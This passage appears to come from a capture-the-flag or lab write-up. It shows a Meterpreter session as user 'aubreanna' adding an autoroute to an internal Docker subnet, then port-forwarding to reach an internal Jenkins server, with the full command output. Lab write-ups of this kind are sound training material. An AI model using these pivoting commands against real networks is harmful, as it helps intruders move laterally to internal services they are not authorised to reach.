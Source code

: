 ![image.png](image%2022.png)

```bash
meterpreter > getuid
Server username: aubreanna
meterpreter > run autoroute -s 172.17.0.0/16
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.17.0.0/255.255.0.0...
[+] Added route to 172.17.0.0/255.255.0.0 via 10.10.57.182
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.17.0.0         255.255.0.0        Session 1
```

- As now we can access it here but cannot access it outside for that we have to do port forwarding

```bash
meterpreter > portfwd add -l 5678 -p 8080 -r 172.17.0.2
[*] Forward TCP relay created: (local) :5678 -> (remote) 172.17.0.2:8080
meterpreter > portfwd list

Active Port Forwards
====================

   Index  Local         Remote           Direction
   -----  -----         ------           ---------
   1      0.0.0.0:5678  172.17.0.2:8080  Forward

1 total active port forwards.
```

- After this we will be able to access junkins server
- We got this from localhost”5678

